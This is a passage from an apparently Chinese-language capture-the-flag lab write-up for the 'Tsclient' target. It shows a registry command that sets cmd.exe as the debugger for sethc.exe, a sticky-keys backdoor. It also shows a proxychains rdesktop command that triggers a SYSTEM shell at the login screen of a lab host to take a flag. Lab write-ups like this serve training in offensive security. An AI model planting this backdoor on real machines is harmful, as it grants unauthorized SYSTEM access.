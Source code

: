 ### 提权

这里使用沾滞键进行提权

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

然后按5下shift就可以打开cmd，但是这里没提权成功

![image-20230806165354444](img/春秋云镜-Tsclient/image-20230806165354444.png)

通过rdesktop来在登录界面触发`system`权限的`sethc.exe`来达到提权的目的

```
proxychains rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab
```

![image-20230806172809550](img/春秋云镜-Tsclient/image-20230806172809550.png)

拿第二个flag
